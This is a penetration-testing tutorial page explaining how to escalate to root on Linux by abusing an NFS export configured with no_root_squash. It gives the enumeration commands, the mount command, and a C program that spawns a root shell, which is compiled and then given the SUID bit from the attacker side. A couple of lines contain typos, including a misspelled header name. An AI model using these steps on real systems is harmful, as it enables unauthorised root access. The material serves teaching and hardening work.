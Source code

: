 # NFS Root Squashing

The compromised machine may be configured to allow certain directories to be mounted by other machines. You can enumerate such directories by running the following command on the victim machine:

```bash
cat /etc/exports
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/NFS Root Squashing/Enumerate Mountable Directories.png>)

You can additionally verify this from your attacker machine by running:

```bash
showmount -e <victim IP>
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/NFS Root Squashing/Confirm Mountable Directories.png>)

If there is a mountable directory which is configured as `no_root_squash`, as is the case here, then it can be used for privilege escalation.

We begin by mounting the target directory from the victim to a directory on our machine:

```bash
sudo mount -o rw, vers=3 <victim IP>:/tmp /tmp/root_squash
```

Now, if `no_root_sqaush` is configured for the mountable directory, then the root user on the attacker machine will get mirrored on the victim machine. In essence, any command run as root on the attacker machine, will also be executed as root on the victim! This can allow us to create a malicious binary in the mounted directory and set its SUID bit from the attacker machine. This action will be mirrored by the victim and we will essentially have an SUID binary on the target which is all under our control.

Let's write a simple malicious C executable:

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0); // Set user ID to root
	setgid(0); // Set group ID to root
	system("/bin/bash -i"); // Execute bash now with elevated privileges

	return 0;
}
```

It doesn't matter if you create it on the target or the attacker machine, but you _must_ compile it on the target machine in order to avoid library version mismatches:

```bash
gcc -o nfs_exploit nfs_exploit.c
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/NFS Root Squashing/Compile On Target.png>)

Next, you want to change the ownership of the compiled binary to `root` _on the attacker machine_. Afterwards, you want to set the SUID bit on the binary, once again, _from the attacker machine_:

```bash
sudo chown root:root nfs_exploit
sudo chmod +s nfs_exploit
```

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/NFS Root Squashing/Change Ownership and Permission on the Attacking Machine.png>) ![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/NFS Root Squashing/Ownership and Permissions from the Target's POV.png>)

Finally, execute the malicious binary _on the target_:

![](<../../../Post Exploitation/Privilege Escalation/Linux/Resources/Images/NFS Root Squashing/NFS Exploit.png>)
